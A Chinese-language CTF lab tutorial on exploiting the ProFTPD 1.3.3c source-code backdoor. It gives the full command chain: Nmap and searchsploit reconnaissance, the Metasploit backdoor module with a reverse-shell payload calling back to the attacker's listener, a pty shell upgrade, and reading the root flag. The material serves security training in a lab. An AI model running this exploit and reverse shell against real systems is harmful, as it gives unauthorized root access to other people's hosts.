










# CTF教程：P11：FTP服务后门利用 🚩

在本节课中，我们将学习CTF训练中关于服务安全的一个实战案例：针对FTP服务的后门利用。我们将从信息收集开始，逐步探测目标、分析漏洞，最终利用一个已知的后门漏洞获取目标主机的root权限并读取flag值。

## FTP协议简介

上一节我们介绍了课程目标，本节中我们来看看FTP协议本身。FTP是文件传输协议的英文简称，中文简称为文件协议。它用于Internet上控制文件的双向传输。FTP也是一个应用程序，基于不同操作系统有不同的FTP服务实现，但所有应用程序都遵守同一种协议来传输文件。

在FTP的使用中，用户经常遇到两个概念：下载和上传。下载文件是指从远程主机拷贝文件到自己的计算机中。上传文件是指将文件从自己的计算机拷贝到远程计算机上。用互联网术语来说，用户可以通过客户机程序从远程主机上传或下载文件。由此可知，FTP就是这种文件传输的规定或法则。



## 实验环境搭建



了解了FTP的基本概念后，我们需要搭建实验环境。攻击机采用Kali Linux，其IP地址是`192.168.1.105`。靶场机器使用Ubuntu系统，其IP地址是`192.168.1.100`。

## 目标探测与信息收集

我们获得了实验环境，该如何操作呢？我们的目标很明确：获取靶场机器上的flag值，取得靶场机器的对应权限。因此，第一步是探测靶场机器上开放的服务及其版本。我们将使用Nmap工具进行探测。

以下是使用Nmap扫描服务版本的命令：
```bash
nmap -sV 192.168.1.100
```

除了使用`-sV`参数扫描服务信息，还可以使用快速扫描方式获取更全面的信息，包括操作系统版本和路由信息等。



以下是快速扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.100
```

扫描完成后，我们需要对结果进行分析，挖掘可利用的信息，并查找相关漏洞。

## 漏洞分析与搜索

从扫描结果中，我们发现目标开放了21（FTP）、22（SSH）和80（HTTP）端口。今天的重点是FTP服务。我们发现了FTP软件的敏感信息：`ProFTPD`及其具体版本。

接下来，我们需要查找该版本软件是否存在已知漏洞。我们将使用`searchsploit`工具进行搜索。

以下是搜索漏洞的命令：
```bash
searchsploit ProFTPD 1.3.3c
```

搜索结果显示存在一个远程代码执行漏洞，该漏洞源于源代码中的一个后门，并且该漏洞已被集成到Metasploit框架中。为了方便利用，我们将直接使用Metasploit。

## 利用Metasploit进行漏洞利用

我们确认`ProFTPD 1.3.3c`存在远程漏洞，并且已集成到Metasploit。现在，我们使用Metasploit进行远程溢出攻击。

首先，启动Metasploit控制台：
```bash
msfconsole
```

启动后，搜索该漏洞对应的利用模块：
```bash
search ProFTPD 1.3.3c
```

找到利用模块后，使用该模块并查看可用的攻击载荷（payload）：
```bash
use exploit/unix/ftp/proftpd_133c_backdoor
show payloads
```

我们选择一个反向shell的payload，例如`cmd/unix/reverse`，并进行设置：
```bash
set payload cmd/unix/reverse
```



接着，查看并设置必要的参数，包括目标IP（RHOST）和监听IP（LHOST）：
```bash
show options
set RHOSTS 192.168.1.100
set LHOST 192.168.1.105
```

设置完成后，执行漏洞利用：
```bash
exploit
```

如果成功，我们将获得一个反向shell会话。

## 权限提升与终端优化



成功利用漏洞后，我们通常直接获得了root权限。可以通过`id`命令验证：
```bash
id
```

但返回的shell可能功能不完整或显示不友好。我们可以使用Python的`pty`模块来生成一个功能更全的终端。

以下是优化终端的命令：
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```





执行后，我们将获得一个具有完整交互功能的bash shell。



## 寻找并获取Flag

在CTF比赛中，获得root权限后的关键步骤是找到flag。flag通常存放在服务器的特定目录下，例如根目录（`/`）或`/root`目录。

首先，查看当前目录并切换到根目录：
```bash
pwd
cd /
```

然后，列出文件寻找flag：
```bash
ls -alh
```

通常flag文件名为`flag`或`flag.txt`。找到后，使用`cat`命令读取其内容：
```bash
cat flag
```



获取到flag值后，即可提交得分。

## 总结与拓展



本节课中我们一起学习了针对FTP服务后门的完整利用流程。对于开放FTP、SSH、Telnet等服务的系统，可以尝试使用`searchsploit`查找对应服务版本的漏洞。如果存在已知漏洞，可以直接利用现成的EXP（漏洞利用程序）获取主机访问权限。

需要强调的是，渗透测试的攻击面很广。目标系统上开放的每一个端口、每一项服务及其版本信息，都是潜在的攻击入口。不要局限于Web攻击，应全面审视所有可能的攻击向量。

**核心步骤回顾：**
1.  **信息收集**：使用Nmap扫描目标，识别开放服务和版本。
2.  **漏洞搜索**：利用`searchsploit`查找对应版本的公开漏洞。
3.  **漏洞利用**：使用Metasploit等框架加载利用模块，设置参数并执行攻击。
4.  **权限获取**：成功利用后获得shell，必要时进行权限提升或终端优化。
5.  **获取Flag**：在文件系统中定位并读取flag文件。


通过本课的学习，你应该掌握了从发现服务到利用漏洞获取权限的基本方法论。在实践中，请务必在合法授权的环境中进行测试。